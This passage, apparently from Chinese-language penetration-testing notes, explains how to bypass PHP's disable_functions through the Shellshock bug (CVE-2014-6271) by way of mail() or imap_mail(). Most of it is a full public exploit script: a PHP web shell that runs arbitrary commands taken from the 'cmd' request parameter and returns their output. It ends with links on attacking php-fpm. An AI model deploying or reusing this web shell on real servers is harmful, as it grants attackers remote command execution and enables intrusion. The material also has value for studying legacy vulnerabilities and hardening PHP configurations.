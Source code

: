 如果服务器的默认sh是bash,mail函数会生成一个bash进程,再结合putenv()利用破壳漏洞来实现任意命令执行

会生成bash进程除了mail,php函数还有imap_mail，如果你仅仅通过禁用mail函数来规避这个安全问题，那么imap_mail是可以做替代的。当然，php里还可能有其他地方有调用popen或其他能够派生bash子进程的函数，通过这些地方，都可以通过破壳漏洞执行命令的。

更详细的解释:p牛的[PHP Execute Command Bypass Disable_functions](https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html)

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."\n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```





## 利用php-fpm未授权访问漏洞

### 推荐文章

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598)
